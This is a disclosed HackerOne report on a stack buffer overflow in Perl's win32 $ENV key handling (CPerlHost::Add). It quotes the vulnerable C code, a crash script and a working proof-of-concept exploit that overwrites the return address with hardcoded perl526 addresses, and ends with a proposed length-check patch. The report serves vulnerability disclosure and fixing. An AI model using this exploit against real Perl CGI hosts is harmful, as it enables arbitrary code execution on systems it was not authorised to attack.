 # Perl $ENV Key Stack Buffer Overflow

## Report Details
- **Report ID**: 272497
- **URL**: https://hackerone.com/reports/272497
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-09-27T20:49:46.940Z
- **Disclosed**: 2019-11-12T09:39:58.965Z

## Reporter
- **Username**: johnleitch
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The CPerlHost::Add method in win32\perlhost.h is vulnerable to a stack buffer overflow.

void
CPerlHost::Add(LPCSTR lpStr)
{
    char szBuffer[1024];
    LPSTR *lpPtr;
    int index, length = strlen(lpStr)+1;

    for(index = 0; lpStr[index] != '\0' && lpStr[index] != '='; ++index)
    szBuffer[index] = lpStr[index];

    szBuffer[index] = '\0';
    [...]
}

The issue exists because the size of lpStr, the key passed in when indexing into $ENV, is not checked before it is copied into szBuffer, a fixed size stack buffer.

The issue can be reproduced on a win32 build with the following script.

print "Starting\r\n";
$ENV{"A" x (0x1000)} = 0;
print "Done\r\n";

In cases where the $ENV key is exposed as attack surface (such as through CGI-BIN custom HTTP headers), it may be possible for an attacker to achieve arbitrary code execution. The issue was exploited in both Strawberry and Active State Perl, which appear to be compiled without stack canaries or ASLR.

print "Starting\r\n";

$chars =
    "\x41\x41\x41\x41" .
    "\x78\x6e\x3b\x6e" .    # perl526!exit (6E3B6E78)
    "\x43\x43\x43\x43" .
    "\x4e\x1d\x1e\x03" .    # exit code (52305230)
    "\x45\x45\x45\x45" . 
    "\x46\x46\x46\x46" . 
    "\x47\x47\x47\x47" . 
    "\x30\x2c\x3a\x6e";     # perl526!win32_getpid (6e3a2c30)

$ENV{$chars x ((0x400+0x4*0x10) / length $chars)} = 0;

print "Done\r\n";

A proposed patch that validates the length of lpStr follows.

diff --git "a/d:\\source2\\perl-raw\\win32\\perlhost.h" "b/D:\\source2\\perl\\win32\\perlhost.h"
index 84b08c9..665504e 100644
--- "a/d:\\source2\\perl-raw\\win32\\perlhost.h"
+++ "b/D:\\source2\\perl\\win32\\perlhost.h"
@@ -2177,12 +2177,15 @@ compare(const void *arg1, const void *arg2)
 void
 CPerlHost::Add(LPCSTR lpStr)
 {
-    char szBuffer[1024];
+    char szBuffer[2048];
     LPSTR *lpPtr;
     int index, length = strlen(lpStr)+1;
 
     for(index = 0; lpStr[index] != '\0' && lpStr[index] != '='; ++index)
-	szBuffer[index] = lpStr[index];
+        if (index != sizeof(szBuffer) - 1)
+            szBuffer[index] = lpStr[index];
+        else
+            Perl_croak_nocontext("$ENV key too large");
 
     szBuffer[index] = '\0';
 
Note that the buffer size had to be increased to accommodate larger values that were previously causing silent overwrites.

Credit: John Leitch (john@autosectools.com), Bryce Darling (darlingbryce@gmail.com)


## Attachments
No attachments
